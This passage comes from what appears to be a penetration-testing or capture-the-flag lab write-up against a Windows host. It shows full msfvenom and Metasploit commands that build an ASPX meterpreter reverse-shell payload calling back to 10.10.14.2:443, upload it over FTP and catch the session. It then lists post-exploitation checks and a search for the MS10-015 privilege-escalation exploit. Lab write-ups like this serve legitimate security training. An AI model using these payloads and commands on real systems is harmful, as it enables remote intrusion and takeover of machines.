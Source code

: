 ### 2.4 Reverse Shell with Metasploit

We generate a reverse ASPX payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=443 -f aspx -a x86 > reverse.aspx
```

Upload the file via FTP:

![[metasploit_aspx_webshell.png]]

Set up a listener with Metasploit:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.2
set lport 443
run
```

Trigger the reverse shell by browsing to the uploaded payload:

![[Pasted image 20250823101846.png]]

Shell obtained:

![[shell_obtained.png]]

Verify:

```bash
sysinfo
whoami /priv
```

![[shell_info.png]]

---
## 3. Privilege Escalation

We background the session:

```bash
exit
background
```

Search for privilege escalation exploits:

```bash
search exploit/windows/local/ms10_015
```
